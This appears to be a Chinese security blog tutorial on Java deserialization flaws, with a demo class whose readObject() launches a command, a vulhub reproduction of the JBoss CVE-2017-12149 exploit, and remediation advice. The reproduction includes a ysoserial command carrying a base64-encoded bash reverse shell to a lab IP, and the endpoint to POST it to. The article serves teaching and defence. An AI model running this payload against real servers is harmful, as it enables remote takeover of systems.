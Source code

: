 > 原文链接: https://www.anquanke.com//post/id/251223 


# 说说JAVA反序列化


                                阅读量   
                                **32925**
                            
                        |
                        
                                                                                    



[![](https://p3.ssl.qhimg.com/t01ac73b782bb788959.jpg)](https://p3.ssl.qhimg.com/t01ac73b782bb788959.jpg)



JAVA 是我国开发者广泛使用的开发语言，在金融行业使用尤为突出。实战中，利用 Java 反序列化实现远程命令执行的案例增长趋势明显，同时，WebLogic、 WebSphere、 JBoss、 Shiro等框架也都先后受到反序列化漏洞的影响，不安全的反序列化漏洞也已被列入OWASP Top 10（2021）。



## 0x01 关于JAVA序列化和反序列化

序列化是把对象转换为字节序列的过程，反序列化是把字节序列恢复为对象的过程。JAVA 序列化和反序列化主要解决了两个问题：1、把对象的字节序列永久地保存到硬盘或数据库中，实现对象的持久化存储；2、通过网络上传送对象的字节序列实现 JAVA 对象实例的网络传输。

[![](https://p4.ssl.qhimg.com/t01fcd8e99d9bfddc38.jpg)](https://p4.ssl.qhimg.com/t01fcd8e99d9bfddc38.jpg)

序列化和反序列化本身并不存在问题。但当输入的反序列化的数据可被用户控制，那么攻击者即可通过构造恶意输入，让反序列化产生非预期的对象，在此过程中执行构造的任意代码。

由于 JAVA生态的原因，开发者会引用大量开源组件和第三方组件，JAVA标准库及大量第三方公共类库成为反序列化漏洞利用的关键。安全研究人员已经发现大量利用反序列化漏洞执行任意代码的方法，最让大家熟悉的是Gabriel Lawrence和Chris Frohoff在《Marshalling Pickles how deserializing objects can ruin your day》中提出的利用Apache Commons Collection第三方公共类库实现任意代码执行。

JAVA 常见的序列化和反序列化的方法有JAVA 原生序列化和 JSON 类（fastjson、jackson）序列化。本文对JAVA原生反序列化进行讨论，JSON类序列化后续将介绍。



## 0x02 JAVA反序列化漏洞原理

如果JAVA应用对用户输入，即不可信数据做了反序列化处理，那么攻击者可以通过构造恶意输入，让反序列化产生非预期的对象，非预期的对象在产生过程中就有可能带来任意代码执行。举个例子，我们自己写了一个 class 来进行对象的序列与反序列化。

```
import java.io.File;
import java.io.FileInputStream;
import java.io.FileNotFoundException;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.text.MessageFormat;
import java.io.Serializable;
public class test`{`
    public static void main(String args[]) throws Exception`{`
        MyObject myObj = new MyObject();
        myObj.name = "hi";
        FileOutputStream fos = new FileOutputStream("object");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        os.writeObject(myObj);
        os.close();
        FileInputStream fis = new FileInputStream("object");
        ObjectInputStream ois = new ObjectInputStream(fis);
        MyObject objectFromDisk = (MyObject)ois.readObject();
        System.out.println(objectFromDisk.name);
        ois.close();
    `}`
`}`
class MyObject implements Serializable`{`
    public String name;
    private void readObject(java.io.ObjectInputStream in) throws IOException, ClassNotFoundException`{`
        in.defaultReadObject();
        Runtime.getRuntime().exec("C:/Windows/System32/cmd.exe /c calc");
    `}`
`}`
```

MyObject 类有一个公有属性 name ，myObj 实例化后将 myObj.name 赋值为了 “hi” ，然后序列化写入文件 object，然后读取 object 反序列化时，按照readObject()函数，执行了系统命令，弹出了计算器。

[![](https://p4.ssl.qhimg.com/t01d8f4cb6916cc6db1.jpg)](https://p4.ssl.qhimg.com/t01d8f4cb6916cc6db1.jpg)

MyObject 类实现了Serializable接口，并且重写了readObject()函数，只有实现了Serializable接口的类的对象才可以被序列化，没有实现此接口的类将不能使它们的任一状态被序列化或逆序列化。这里的 readObject() 方法的作用是从一个源输入流中读取字节序列，再把它们反序列化为一个对象，并将其返回，readObject() 是可以重写的，因此可以定制反序列化的一些行为，进而可以用来进行漏洞利用，比如这里的命令执行。



## 0x03 JBoss 反序列化漏洞复现

WebLogic、WebSphere、JBoss、Shiro等框架都出现过反序列化问题，这里以JBoss5.x/6.x 反序列化漏洞为代表，复现java反序列化漏洞利用过程。JBoss 5.x/6.x 反序列化漏洞存在于http invoker 组件的 ReadOnlyAccessFilter 的 doFilter 中。如下图所示：

[![](https://p5.ssl.qhimg.com/t01877e730bd0d75102.jpg)](https://p5.ssl.qhimg.com/t01877e730bd0d75102.jpg)

这里doFilter方法中的代码在没有进行任何安全检查的情况下，将来自客户端的数据流（request.getInputStream()）进行了反序列化操作（红色箭头所示），从而导致了反序列化漏洞。漏洞复现实验环境：vulhub，[https://vulhub.org/#/environments/jboss/CVE-2017-12149/](https://vulhub.org/#/environments/jboss/CVE-2017-12149/) 启动docker环境，进入到漏洞环境，编译启动漏洞环境：

[![](https://p3.ssl.qhimg.com/t01df623aa08e2be6be.jpg)](https://p3.ssl.qhimg.com/t01df623aa08e2be6be.jpg)

我们使用bash来反弹shell，但由于Runtime.getRuntime().exec()中不能使用管道符等bash需要的方法，我们需要用进行一次编码。工具：[http://www.jackson-t.ca/runtime-exec-payloads.html](http://www.jackson-t.ca/runtime-exec-payloads.html)

[![](https://p3.ssl.qhimg.com/t01c68309172e006e80.jpg)](https://p3.ssl.qhimg.com/t01c68309172e006e80.jpg)

使用ysoserial来复现生成序列化数据，由于Vulhub使用的Java版本较新，所以选择使用的gadget是CommonsCollections5：

```
java -jarysoserial.jar CommonsCollections5 "bash -c`{`echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljk5LjEvMTIzNDUgMD4mMQ==`}`|`{`base64,-d`}`|`{`bash,-i`}`"&gt; poc.ser
```

生成好的POC即为poc.ser，将这个文件作为POST的Body发送至/invoker/readonly即可：

[![](https://p2.ssl.qhimg.com/t019d6d0556665d8455.jpg)](https://p2.ssl.qhimg.com/t019d6d0556665d8455.jpg)

JBOSS反序列化漏洞利用成功，成功反弹shell：

[![](https://p1.ssl.qhimg.com/t01fc2ba0e928b11c83.jpg)](https://p1.ssl.qhimg.com/t01fc2ba0e928b11c83.jpg)



## 0x04 漏洞发现与修复

JAVA反序列化漏洞发现包括白盒和黑盒两种方式，对于白盒方式主要依靠代码审计，以ObjectInputStream.readObject()为例，其它反序列化接口的检测原理也相似，可通过实现解析java源代码，检测readObject()方法调用时判断其对象是否为java.io.ObjectOutputStream。如果此时ObjectInputStream对象的初始化参数来自外部请求输入参数则基本可以确定存在反序列化漏洞。

而对于黑盒的方式，JAVA序列化的数据一般会以标记（ac ed 00 05）开头，base64编码后的特征为rO0AB，对于这种流量特征的入口，可调用ysoserial并依次生成各个第三方库的利用payload，构造为访问特定url链接的payload，根据http访问请求记录判断反序列化漏洞是否利用成功。



## 常见的修复手段包括：

1、类白名单校验，在 ObjectInputStream 中 resolveClass 里只是进行了 class 是否能被 load ，自定义 ObjectInputStream , 重载 resolveClass 的方法，对 className 进行白名单校验。<br>
2、禁止 JVM 执行外部命令 Runtime.exec，通过扩展 SecurityManager 可以实现。<br>
3、根据实际情况，需要及时更新commons-collections、commons-io等第三方库版本。
